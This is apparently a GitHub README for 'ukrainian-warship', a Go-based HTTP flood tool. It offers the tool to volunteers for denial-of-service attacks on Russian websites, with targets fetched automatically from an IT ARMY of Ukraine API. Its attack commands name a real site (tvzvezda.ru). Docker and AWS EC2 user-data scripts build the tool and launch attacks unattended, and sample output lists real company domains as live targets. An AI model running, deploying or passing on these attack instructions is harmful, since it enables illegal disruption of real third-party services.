 ```
 _   _ _              _       _               _    _                _     _       
| | | | |            (_)     (_)             | |  | |              | |   (_)      
| | | | | ___ __ __ _ _ _ __  _  __ _ _ __   | |  | | __ _ _ __ ___| |__  _ _ __  
| | | | |/ / '__/ _` | | '_ \| |/ _` | '_ \  | |/\| |/ _` | '__/ __| '_ \| | '_ \ 
| |_| |   <| | | (_| | | | | | | (_| | | | | \  /\  / (_| | |  \__ \ | | | | |_) |
 \___/|_|\_\_|  \__,_|_|_| |_|_|\__,_|_| |_|  \/  \/ \__,_|_|  |___/_| |_|_| .__/ 
                                                                           | |    
                                                                           |_|  go birrr  
```
**Too fat to fight? Still want to do your part?**<br> 
Then we have just what you need! Strap your self in to you very own Ukrainian Warship and take aim!

Ukrainian Warship features:
- Acquire targets directly form IT ARMY of Ukraine
- Automatically detects online targets
- Stolen code from popular https stress test tool
- The pockets of dead target will gown sunflowers
<br>
<br>

# Usage

There are two modes of attack, single target and auto. Unless a target is specified ukrainian-warship will start in auto.
Auto attack acquires targets from a central api and takes aim at those.
<br><br><br>
**Single target example:**
```
ukrainian-warship kill --target=https://tvzvezda.ru/ --workers=64
```
**--target=https://tvzvezda.ru/** the url you want to attack  
**--workers=64** number of workers specifies the number of concurrent calls to the URL
<br><br><br>
**Auto example:**
```
ukrainian-warship kill --workers=64
``` 
**--workers=64** number of workers specifies the number of concurrent calls for each URL  
**--debug=true** this flag an be added for more detailed output 
# Install

##### Docker
```bash
docker pull sunflowerpockets/ukrainian-warship:latest
docker run -ti --rm sunflowerpockets/ukrainian-warship:latest
```

##### AWS EC2 User Data for Ubuntu Server 20.04 LTS
```bash
#!/bin/bash

apt update -y
apt upgrade -y
cd root
curl -OL https://go.dev/dl/go1.17.7.linux-amd64.tar.gz
tar -C /usr/local -xvf go1.17.7.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
git clone https://github.com/seedpockets/ukrainian-warship.git
cd ukrainian-warship/
mkdir bin
go build -ldflags "-s -w" -o /root/ukrainian-warship/bin/ukrainian-warship
chmod +x /root/ukrainian-warship/bin/ukrainian-warship
/root/ukrainian-warship/bin/ukrainian-warship kill > /dev/null
```

##### Ubuntu Server 20.04 LTS
```bash
#!/bin/bash

sudo apt update -y
sudo apt upgrade -y
curl -OL https://go.dev/dl/go1.17.7.linux-amd64.tar.gz
sudo tar -C /usr/local -xvf go1.17.7.linux-amd64.tar.gz
echo export PATH=$PATH:/usr/local/go/bin >> ~/.profile
source ~/.profile
git clone https://github.com/seedpockets/ukrainian-warship.git
cd ukrainian-warship/
mkdir bin
go build -ldflags "-s -w" -o bin/ukrainian-warship
chmod +x bin/ukrainian-warship
bin/ukrainian-warship kill    
```

Example output:
```
 Updates targets every 5 min...


Target
_________________________________________________________
https://www.nornickel.com/
https://rmk-group.ru/ru/
https://www.evraz.com/ru/
https://nangs.org/
https://www.metalloinvest.com/
https://www.polymetalinternational.com/ru/
https://www.sibur.ru/
https://www.uralkali.com/ru/
https://www.tmk-group.ru/
Total:  10
⣻
```